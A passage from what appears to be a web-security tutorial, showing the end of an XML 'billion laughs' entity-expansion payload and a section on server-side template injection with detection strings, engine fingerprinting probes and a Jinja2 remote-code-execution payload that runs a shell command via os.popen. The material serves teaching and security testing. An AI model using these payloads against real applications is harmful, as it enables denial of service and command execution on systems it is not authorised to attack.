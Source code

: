 ```xml
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

### 5.3 Server-Side Template Injection (SSTI)

Exploiting template engines that process user input as template code:

1. **Template Injection Concepts**:
   - Server-side templates
   - Template syntax and evaluation
   - Common template engines (Jinja2, Twig, FreeMarker)
   - Context of injection

2. **SSTI Attack Vectors**:
   - Remote code execution
   - Information disclosure
   - File reading
   - Denial of service

3. **Testing for SSTI**:
   - Template syntax testing
   - Engine fingerprinting
   - Payload construction
   - Exploitation techniques

```bash
# Example: SSTI testing and exploitation

# Step 1: Basic SSTI detection payloads
# Try these in input fields, URL parameters, etc.
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}

# Step 2: Template engine fingerprinting
# Jinja2/Twig
{{config}}
{{config.items()}}
{{7*'7'}}

# FreeMarker
<#list [1,2,3] as i>${i}</#list>

# Velocity
#set($x = 7*7)${x}

# JSP
<%= new java.util.Date() %>

# Step 3: Jinja2 RCE payload
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```